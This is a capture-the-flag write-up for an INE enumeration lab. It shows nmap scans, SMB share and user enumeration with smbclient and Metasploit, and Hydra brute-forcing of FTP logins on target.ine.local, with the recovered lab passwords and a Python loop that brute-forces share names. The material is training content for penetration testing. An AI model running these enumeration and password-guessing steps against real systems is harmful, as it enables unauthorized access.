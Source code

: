 ## Assessment Methodologies: Enumeration CTF 1

### Flag 1: There is a samba share that allows anonymous access. Wonder what's in there!

We proceed with an assessment for the target using nmap
```
nmap -Pn -sS -sV -F target.ine.local
```
The only ports open are:
```
22 - OpenSSH 8.2p1
139 - Samba 4.6.2
445 - Samba 4.6.2
```
Following the hints, we concentrate on port 445:
```
nmap -Pn -sS -sV -p 445 --script=smb-* target.ine.local
```
However nothing interesting emerges from this scan

Next we try an anonymous login, but no useful data is found, as the only shares detectable are
```
print$
IPC$
```
We use the command:
```
smbclient -L target.ine.local -N
```
to list all available shares.

Even connecting to IP$ is of no use, while print$ is not accessible.
```
smbclient \\\\target.ine.local\\IPC$\\ -U anonymous
```
Thenl, we try using Metasploit modules:
```
smb_enumusers
smb_enumshares
```
While the second reveals only the information we already know, the first one reveals four users name:
```
josh
nancy
bob
alice
```
We attempt a brute-force attack against those users using the Metasploit module smb_login:

Using /usr/share/wordlists/metasploit/unix_passwords.txt as a password list, we find:
```
josh -> purple
```
While we do not find the share we need, we attempt to brute-force folder name using a list located on desktop and provided by the machine.
```
smbclient -U '' //target.ine.local/pubfiles
```
After several attempts, we find the pubfiles directory containing the first flag.

***

### Flag 2: One of the samba users have a bad password. Their private share with the same name as their username is at risk!

While we are unable to see a complete list of the shares, we assume that the share for the user josh has the same name:
```
smbclient \\\\target.ine.local\\josh -U josh
```
In this location, we find the second flag.

***

### Flag 3: Follow the hint given in the previous flag to uncover this one.

The previous flag suggests that there is an FTP service running on the target machine, but no such a service is found on port 21.

We try to scan the entire port range with nmap searching for an FTP service.
We find something in running on port 5554:
```
nmap -Pn -sS -p- target.ine.local
```
Further investigation:
```
nmap -Pn -sS -p 5554 -sV -sC target.ine.local 
```
reveals that an FTP service is running on port 5554.
```
ftp -P 5554 target.ine.local
```
This command prints a banner:
```
220 Welcome to blah FTP service. Reminder to users, specifically ashley, alice and amanda to change their weak passwords immediately!!!
```
We identify three users for brute-forcing access to the service:
```
ashley
alice
amanda
```
Using Hydra:
```
hydra -l alice -P /root/Desktop/wordlists/unix_passwords.txt ftp://target.ine.local:5554
```
alice has the weakest password, “pretty”
```
ftp -P 5554 target.ine.local
```
We log into FTP service with this username and password to recover the third flag.

***

### Flag 4: This is a warning meant to deter unauthorized users from logging in.

The last known service on the machine is SSH.
After attempting to access it with the root user, the service prints a warning banner containing the final flag.

***

### Alternative to discover Flag 1

We have to write Python code (or a bash script) to automate the process of brute forcing using the list in Desktop subfolder.
```python
import subprocess

# Path to the file containing the list of shares
file_path = "shares.txt"

# Open the file and iterate through each line
try:
    with open(file_path, 'r') as file:
        for line in file:
            share = line.strip()  # Remove any leading/trailing whitespace
            
            if share:  # Skip empty lines
                # Construct the smbclient command
                command = (f"smbclient //target.ine.local/{share} -N -c \"ls\"")
                
                print(f"Executing: {command}")
                
                # Run the command
                result = subprocess.run(command, shell=True, capture_output=True, text=True)
                
                # Print the output or errors
                if result.returncode == 0:
                    print(f"Output for share {share}:\n{result.stdout}")
                else:
                    print(f"Error for share {share}:\n{result.stderr}")

except Exception as e:
    print(f"An error occurred: {e}")
```
